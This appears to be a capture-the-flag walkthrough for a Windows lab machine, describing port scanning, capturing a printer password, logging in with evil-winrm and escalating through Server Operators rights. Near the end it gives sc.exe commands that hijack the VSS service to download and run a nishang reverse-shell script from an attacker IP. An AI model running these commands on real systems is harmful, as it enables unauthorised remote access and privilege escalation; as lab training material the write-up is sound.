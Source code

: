 Run a Nmap scan to find for open ports.

![image](https://user-images.githubusercontent.com/93418272/179000727-ead48bab-ac66-4a45-a4df-1ef2e0fcc653.png)


Head to the web browser.

![image](https://user-images.githubusercontent.com/93418272/179000747-78628aba-53a1-42fb-87f7-8044ed25af44.png)

![image](https://user-images.githubusercontent.com/93418272/179000767-e7eae80f-f100-479d-bec3-667a5f681958.png)


We can change the settings and start a nc listener. 

![image](https://user-images.githubusercontent.com/93418272/179000789-d32d690c-20ee-442a-9551-5ce662d81390.png)


Printer password is gained.

![image](https://user-images.githubusercontent.com/93418272/179000824-327121f6-1a1d-4b8b-842c-f77a79f40a1f.png)


Use the evil-winrm tool to gain acess. 

![image](https://user-images.githubusercontent.com/93418272/179000864-34471f2f-7b78-4ac5-89f2-53c8ce75ce51.png)


Found the user flag. 

![image](https://user-images.githubusercontent.com/93418272/179000890-d7191e51-3381-4e1f-bdbd-f8177b1b233c.png)


Using the net user command , we are able to use Server Operators

![image](https://user-images.githubusercontent.com/93418272/179000917-a359728c-785e-4618-bdc6-1c8148822101.png)


Let's use a powershell script from nishang : https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1

Change the IP address to your attacking machine.

Start a python server with the same location of the powershell script 

Start a nc listener on port 4444.

Use the following commands to start the server to download the script and execute it. 

sc.exe config VSS binpath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.23:81/Invoke-PowerShellTcpOneLine.ps1')"

sc.exe stop VSS

sc.exe start VSS

![image](https://user-images.githubusercontent.com/93418272/179000950-0e9d855a-af2b-487e-8e5a-f2f1f7890c22.png)


The script has been downloaded.

![image](https://user-images.githubusercontent.com/93418272/179000972-858200e8-fa29-42fc-9be8-f1c658598633.png)


Access gained.

![image](https://user-images.githubusercontent.com/93418272/179001018-9f30cac3-f70a-4310-8035-9d6b58dc424b.png)


Head to the Administrator desktop to get the root flag.

![image](https://user-images.githubusercontent.com/93418272/179001062-3851db5c-b82c-435d-b02b-a82f05352c4b.png)
